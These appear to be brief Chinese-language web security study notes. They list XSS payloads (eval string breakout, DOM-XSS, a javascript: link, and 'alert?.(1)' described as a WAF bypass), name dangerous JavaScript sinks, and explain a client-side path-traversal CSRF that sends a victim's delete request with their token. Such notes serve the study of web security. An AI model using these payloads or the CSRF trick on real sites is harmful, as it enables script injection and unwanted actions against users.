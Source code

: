 ```JavaScript
eval("console.log('"+"')-alert()//"+"')");
注释只会注释当前部分，不会全部注释掉，就是最后一个双引号之前的会注释掉
```
危险函数：settimeout，eval，location，innerhtml等

```
var name = '1' -alert(1)
典型的domxss
```

```
<a href=javascript:alert%28%29>test</a>
```

```
alert?.(1)
可以绕waf
```

CSRF的客户端路径穿越
/api/user/del/info?id=fever
可能造成的后端请求是
/api/user/del/info/id/fever
那么我们可以
```
/api/user/del/info?id=../../fever
```
造成受害者发送这样的请求，会带上自己的csrftoken
```
/api/user/del/fever
```
这是发生在客户端的

不要太过于关注包的样子，只要管包的功能是不是这样